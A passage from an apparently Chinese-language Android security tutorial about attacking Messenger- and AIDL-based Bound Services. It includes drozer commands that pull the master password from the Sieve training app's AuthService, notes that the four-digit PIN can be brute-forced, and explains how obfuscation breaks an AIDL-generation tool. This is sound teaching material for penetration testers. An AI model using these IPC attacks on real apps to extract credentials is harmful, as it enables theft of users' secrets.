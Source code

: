 ```
                    this.sendResponseMessage(4, v1, v3, v8);
                    return;

```

AuthService根据传入Message对象的不同，执行不同的动作，注意当Message对象的what为2354，arg1为9234时，如果当前的PIN正确，则可返回Sieve使用的主password。Drozer提供了app.service.send模块，利用该模块可以很方便地测试基于Messenger的跨进程通信。

```
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 0 --extra string com.mwr.example.sieve.PIN 1234 --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 5
  arg1: 41
  arg2: 0
  Extras
    com.mwr.example.sieve.PASSWORD (String) : passw0rd123123123

```

如果PIN不正确，则只返回当前传入的PIN

```
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 33333 --extra string com.mwr.example.sieve.PIN 2344 --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 5
  arg1: 41
  arg2: 1
  Extras
    com.mwr.example.sieve.PIN (String) : 2344

```

由于PIN只有4位，利用上述两种结果的不同，可以编写程序进行爆破。另外一个CryptoService同样也有类似的漏洞，通过传入特定的Message对象，执行加解密操作，可被用来解密password，详见【3】。

0x03 攻击基于AIDL的Bound Service
=====

文献【1】给出了一个存在命令执行漏洞的Bound Service，并根据Bound Service的apk生成AIDL接口文件，编写攻击程序调用Bound Service中的命令执行方法。然而，在使用中发现生成AIDL文件的工具主要根据smali文件中的Stub.Proxy类进行抓取，而当apk进行了混淆，便不能正确生成AIDL文件了。例如，我们配置build.gradle中的minifyEnabledtrue开关为true，使用Android Studio的默认混淆规则。对混淆的apk与未混淆的apk使用JEB逆向对比如下

![image](http://drops.javaweb.org/uploads/images/1706a4f588c61cb0985af5980b298b856d9964b7.jpg)

混淆后的apk少了许多有关AIDL的信息，没有了Stub Proxy这些特征，致使如下代码实现的GenerateAIDL工具出错

```
if (descriptorToDot(interfaces.first()).equals(IINTERFACE_CLASS)) {

/* Now grab the Stub.Proxy, to get the protocols */
String stubProxyName = className + ".Stub.Proxy";
DexBackedClassDef stubProxyDef = getStubProxy(classDefs, stubProxyName);
if (stubProxyDef == null) {
    System.err.println("[ERROR] Unable to find Stub.Proxy for class: "
                                            + stubProxyName + ", Skiping!");
    continue;
}

```
